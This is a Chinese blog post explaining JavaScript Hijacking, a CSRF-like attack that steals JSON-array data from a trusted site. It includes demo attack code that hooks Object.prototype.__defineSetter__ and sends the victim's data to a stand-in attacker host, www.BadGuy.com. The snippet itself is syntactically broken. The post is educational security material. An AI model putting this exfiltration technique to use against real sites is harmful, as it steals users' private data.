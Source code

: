 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      JavaScript Hijacking 				# 标题 
subtitle:   JS 劫持原理   #副标题
date:       2019-07-21 				# 时间
author:     Joel 						# 作者
header-img: img/post-bg-2015.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:	JavaScript							#标签
---
```



## JavaScript劫持  


## [深入理解JavaScript Hijacking原理](https://www.cnblogs.com/hyddd/archive/2009/07/02/1515768.html)



        最近在整理关于JavaScript代码安全方面的资料，在查关于JavaScript Hijacking的资料时，发现关于它的中文资料很少，故特意整理一下。

一.JavaScript Hijacking原理

        其实JavaScript Hijacking和CSRF攻击的思想很类似，关于CSRF攻击可以参考我之前写的《[浅谈CSRF攻击方式](https://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)》，关于JavaScript Hijacking的攻击模型，见下图：

![](/img/blog/20190721JSHijacking_files/2009070218500674.jpg)

（1）.你正常访问信任站点（[http://www.Bank.com](http://www.bank.com/)），然后登陆信任站点。

（2）.信任站点通过你的验证，并返回Cookie。

（3）.这时，在你还没有登出信任站点之前，你再打开了一个浏览器的tab页，并访问了一个恶意站点（[www.BadGuy.com](http://www.badguy.com/)）。

（4）.恶意站点向请求用户访问[http://www.Bank.com](http://www.bank.com/)的一个资源。

（5）.浏览器带着之前的Cookie信息，向信任站点[http://www.Bank.com](http://www.bank.com/)发出了一个GET请求。

（6）.信任站点验证的Cookie信息通过，根据请求返回一个JSON数组（如果不清楚JSON，可以参考《[JSON入门指南](https://www.cnblogs.com/hyddd/archive/2009/06/15/1503914.html)》）。

（7）.你的浏览器收到来自[http://www.Bank.com](http://www.bank.com/)的响应后，转发响应中的JSON信息给恶意站点。

至此，恶意站点拿到你关于[http://www.Bank.com](http://www.bank.com/)的信息。

        到这里，你应该有对JavaScript Hijacking有一个大概的概念，它确实和CSRF很相像，唯一不同的是，<b>CSRF是模拟你的身份去发送请求，JavaScript Hijacking是模拟你的身份，窃取你在服务器上的私隐信息</b>。

<b>二.JavaScript Hijacking攻击示范代码：</b>

演示代码之前，首先明确几点：

（1）.恶意站点的攻击目标是明确的（这里目标就是[http://www.Bank.com](http://www.bank.com/)）。

（2）.恶意站点是通过用户给它返回信任网站的JSON数组（为什么是JSON数组？普通的JSON对象不行么？这个下面会提到！），从而获取用户私隐信息的。也就是说所谓的隐私数据，也就是这些JSON数组里面的数据，所以信任站点返回的不是JSON数组的数据或者JSON里面的信息是垃圾信息，那么这个恶意站点是徒劳的。

（3）.恶意站点必须实先知道用户返回的JSON的结构。

（4）.恶意站点能且只能发送GET请求......

（5）.这种攻击是需要浏览器支持的，至于为什么看下面吧。

恩，下面看一下攻击代码吧:>

这个恶意站点[www.BadGuy.com](http://www.badguy.com/)针对[www.Bank.com](http://www.bank.com/)的攻击代码：
<pre>&lt;script type=<span>&quot;text/javascript&quot;</span>&gt;<br>Object.prototype.__defineSetter__(<span>&apos;money&apos;</span>, <span>function</span>(obj) { var objString = &quot;&quot;;  for (fld in this) {objString += fld + &quot;: &quot; + this[fld] + &quot;, &quot;; }  req.open(&quot;GET&quot;, &quot;<a>http://www.BadGuy.com?obj=</a>&quot; +escape(objString),true); } req.send(null); );<br>&lt;/script&gt;<br>&lt;script type=<span>&quot;text/javascript&quot;</span> src=<span>&quot;http://www.Bank.com/UserInfo&quot;</span>&gt;&lt;/script&gt;</pre>

在用户访问恶意网站时：
<pre>&lt;script type=<span>&quot;text/javascript&quot;</span> src=<span>&quot;http://www.Bank.com/UserInfo&quot;</span>&gt;&lt;/script&gt;</pre>

（1）.这段JS代码会要求浏览器发送一个GET请求到[http://www.Bank.com/UserInfo](http://www.bank.com/UserInfo)，于是浏览器按照指示，带上本地的Cookie信息，发送一个http的GET请求。

（2）. [www.Bank.Com](http://www.bank.com/)接受到请求后，确认身份后，响应请求返回了一个JSON数组/JavaScript代码段。

（3）.客户端接受到这段JS脚本后，如果返回的是一个JSON数组，比如：

```
[{"Id":3,"Name":hyddd,"Money":10000}]
```

JSON数组被认为是一段可执行的JavaScript脚本，于是浏览器会解析执行。

如果返回的是一个JSON对象呢？

```
{"Id":3,"Name":hyddd,"Money":10000}
```

呵呵，这个是不会被浏览器执行的，因为浏览器认为：它不是一个JavaScript脚本。

如果它返回的是一个JavaScript脚本的话，恩，这得具体问题具体分析了，不一定能拿到什么数据。

（4）.看下面这段JavaScript脚本：
<pre>&lt;script type=<span>&quot;text/javascript&quot;</span>&gt;<br>Object.prototype.__defineSetter__(<span>&apos;Money&apos;</span>, <span>function</span>(obj) { <span>var</span> objString = <span>&quot;&quot;</span>;  <span>for</span> (fld <span>in</span> <span>this</span>) {objString += fld + <span>&quot;: &quot;</span> + <span>this</span>[fld] + <span>&quot;, &quot;</span>; }  req.open(<span>&quot;GET&quot;</span>, &quot;<a>http:<span>//www.BadGuy.com?obj</span></a>&quot;= +escape(objString),true); } req.send(null); );<br>&lt;/script&gt;<br></pre>

它的作用就是发送受害者的私隐信息到恶意站点的。

这里可能有人不理解，我大概说一下：

        Object.prototype.__defineSetter__，可以看做是JavaScript中的Hook（有人把这个称为[JavaScript函数劫持](http://www.yuanma.org/data/2007/1214/article_2924.htm)，注意JavaScript的函数劫持和JavaScript Hijacking不是同一个概念，JavaScript Hijacking的核心思想和CSRF攻击的核心思想应该是一致的），这里是对Object的Money属性设置了一个Hook，在JavaScript中，由于其他的对象都是派生自Object的，所以这段代码就对所有对象的Money属性都做了一个Hook，当有对象设置它的Money属性时，都会触发上面这段代码的运行。注意的是：__defineSetter__这个在IE系列的浏览器好像是不受支持的（在IE6下试了不行），但FireFox系列的浏览器是肯定支持的。

         后面的var objString=""...这就是发送受害者信息到恶意站点了，这里不说了。

         当浏览器解析（3）中的JSON数组时，会新建一个对象并赋值，这时候就出发了上面这段代码，结果私隐信息就发送到恶意站点了。

